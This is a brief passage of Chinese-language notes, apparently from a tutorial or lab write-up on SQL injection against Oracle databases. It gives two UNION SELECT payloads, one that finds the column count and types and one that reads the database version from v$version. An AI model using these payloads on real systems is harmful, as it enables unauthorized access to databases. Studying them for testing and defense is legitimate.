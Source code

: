 确定字段数量，和类型

payload:

```javascript
'+UNION+SELECT+'abc','def'+FROM+DUAL--
```

oracle数据库查询数据时必须指定表



查询数据库版本：

payload:

```javascript
'union+select+banner,null+from+v$version--+
```



![](images/EC263D8EB2E14FEE84D4751848EB6152clipboard.png)

